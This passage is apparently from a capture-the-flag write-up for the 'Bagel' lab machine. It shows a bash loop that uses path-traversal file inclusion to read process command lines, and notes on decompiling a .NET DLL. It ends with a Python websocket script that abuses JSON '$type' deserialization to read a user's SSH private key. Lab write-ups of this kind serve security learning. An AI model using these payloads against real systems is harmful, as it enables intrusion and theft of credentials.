 This BASH one liner can do that efficiently
```bash
for i in $(seq 900 1000); do curl bagel.htb:8000/?page=../../../../../../proc/$i/cmdline -o -;echo " PID => $i"; done
```

This will give us the location of the running DLL. We can then download it using our LFI.

# Reverse engineering the DLL

This took a unreasonable amount of time to do. I was doing this CTF on a laptop that was purely linux only (Fedora host, Kali VM), no windows VMs or windows available. It turns out that dotnet decompilers for Linux are few and far between. After a while of research I finally came across this Linux fork of ILSpy, it can be downloaded from [GitHub](https://github.com/icsharpcode/AvaloniaILSpy)

As I don't want to fully spoil the box I shall briefly mention some key findings and how I escalated to the next stage of the CTF.

Looking through the classes:
Found a DB password for the dev user, could potentially be reused password.
Found two JSON serialization functions, deserialize and serialize.
The Message handler function receieved the message, deserialized it, serialized it and then sent it back. Any vulnerability had to be here.

ReadOrder filtered out ../ meaning that LFI wouldn't be available on that function.
WriteOrder simply wrote to orders.txt file, nothing we could do here.
RemoveOrder returned a strange object, this is something we could have some luck with.

After doing some research I came across this blog article.

https://systemweakness.com/exploiting-json-serialization-in-net-core-694c111faa15

It talks about weaknesses in .NET core's JSON serialization handling.

In laymans terms, because of the way the dll is configured we can tell the serialization to treat the JSON as a different object than what it is, and then use this to load a different object to what is intended.

This vulnerability allowed the crafting of this script to get phil's SSH key.

```py
def send():
    payload = {
   "$type": "bagel_server.File, bagel",
   "ReadFile":"../../../../../../../../home/phil/.ssh/id_rsa"
}

    ws = websocket.WebSocket()    

    ws.connect("ws://bagel.htb:5000/") # connect to order app
    order = {"RemoveOrder":payload}
    data = str(json.dumps(order))
    ws.send(data)
    result = ws.recv()
    print(json.loads(result)["RemoveOrder"])
```
